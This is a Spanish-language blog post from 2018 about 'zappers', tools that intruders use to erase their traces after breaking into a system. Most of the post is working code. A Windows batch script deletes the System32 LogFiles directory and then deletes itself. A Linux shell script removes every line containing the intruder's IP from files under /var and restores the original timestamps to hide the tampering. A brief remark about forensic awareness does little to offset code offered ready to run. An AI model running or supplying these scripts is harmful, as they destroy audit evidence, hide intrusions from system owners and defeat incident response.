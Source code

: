 ```yaml
---
id: 42
title: 'Ocultando Huellas: Zappers'
date: 2018-09-05T08:00:29+00:00
author: Oscar
layout: post
guid: http://144.217.6.251/?p=42
permalink: /index.php/2018/09/05/ocultando-huellas-zappers/
categories:
  - Otros
---
```

<p style="text-align: justify;">
  Mucho se habla en internet sobre el como ingresar a un sistema de manera &#8220;no autorizada&#8221;, hay cientos de guías que te detallan paso a paso como explotar ciertas vulnerabilidades del algun producto o tecnología hasta entrar al sistema, pero ¿que hay una vez que entras?, ¿que hay sobre todos los rastros y huellas que vas dejando al momento de entrar?, ¿donde quedan esos registros?, etc.
</p>

<h3 style="text-align: justify;">
  ¿Qué son los Zappers?
</h3>

<p style="text-align: justify;">
  Los Zappers son herramientas automatizadas para el borrado de huellas en algún sistema, existen zappers para los principales sistemas operativos, en su mayoria scripts que el usuario puede customizar según sus necesidades.
</p>

<p style="text-align: justify;">
  Para entender donde buscar si te toca hacer un analisis forense de algún incidente de seguridad es muy importante conocer todos estos lugares donde quedan regisros de acceso o de intentos de acceso, registros de comandos ejecutados, registros de eventos, de url consultadas, memorias caches del sistema, archivos temporales, etc.
</p>

### Ejemplos de algunos Zappers:

**Windows**:

Zapper sencillo en BAT:

<pre class="brush: plain">@echo off
rd /s /q %systemroot%\Windows\System32\LogFiles
md %systemroot%\Windows\System32\LogFiles
del /f /q %0
exit</pre>

Fuente: <http://underc0deblog.blogspot.cl/2014/03/zapper-para-windows-batch.html>

Winzapper:  
<img class="alignnone  wp-image-322" src="https://www.oscarhenriquezg.net/images/2018/09/winzap.png" alt="winzap" width="285" height="234" srcset="https://www.oscarhenriquezg.net/images/2018/09/winzap.png 398w, https://www.oscarhenriquezg.net/images/2018/09/winzap-300x246.png 300w" sizes="(max-width: 285px) 100vw, 285px" />  
Fuente: <http://ntsecurity.nu/toolbox/winzapper/>

**Linux**:

<pre class="brush: plain">#!/bin/sh
#
############################################################################
# "adk.sh v0.1" hecho por el ..sR. aDiKtO.. &lt;adikto@elhacker.net&gt;
#
# Este script borra todas las lineas de todos los archivos
# que esten en /var que contengan tu ip, conservando la fecha
# de antes de la modificacion .
#
# Este script se distribuye segun la licencia GPL v.2 o posteriores y
# no tiene garantias de ningun tipo. Puede obtener una copia de la
# licencia GPL o ponerse en contacto con la Free Software
# Foundation en http://www.gnu.org
############################################################################
#
# Variable que contiene tu ip
IP="127.0.0.1"
############################################################################
# Funcion encargada de limpiar todos los logs
############################################################################
function main()
{
mkdir -p /tmp/.adk &&gt;/dev/null
for i in `find /var 2&gt;/dev/null`
do
  linea=$(cat $i 2&gt;/dev/null | grep $IP )
  if [ "$linea" != "" ]
  then
      ls -l $i &gt; /tmp/.adk/fecha 2&gt;/dev/null
      aux=$(awk '{ print $6 $7 }' /tmp/.adk/fecha 2&gt;/dev/null)
      TIEMPO=$(echo $aux | tr "-:" "\000" 2&gt;/dev/null)
      sed "/$IP/d" $i &gt; /tmp/.adk/datos 2&gt;/dev/null
      cat /tmp/.adk/datos &gt; $i 2&gt;/dev/null
      touch -t $TIEMPO $i 2&gt;/dev/null
      echo -e "IP limpiada del archivo $i"
  fi
done
rm -rf /tmp/.adk &&gt;/dev/null
}
############################################################################
#Funcion principal
############################################################################
clear
echo -e "\n    \033[40m\033[1;37m  adk.sh v0.1  \033[0m\n"
if [ $GROUPS != 0 ]
then
  echo -e "ERROR: Necesitas tener privilegios de root para poder ejecutar este script"
  exit
fi
echo -e "\n Empecemos a borrar tu ip de los log de este sistema.\n"
main
echo -e "\n Ordenador Limpiado Completamente"
</pre>

Fuente: [https://foro.elhacker.net/hacking\_basico/un\_buen_zapper-t26710.0.html](https://foro.elhacker.net/hacking_basico/un_buen_zapper-t26710.0.html)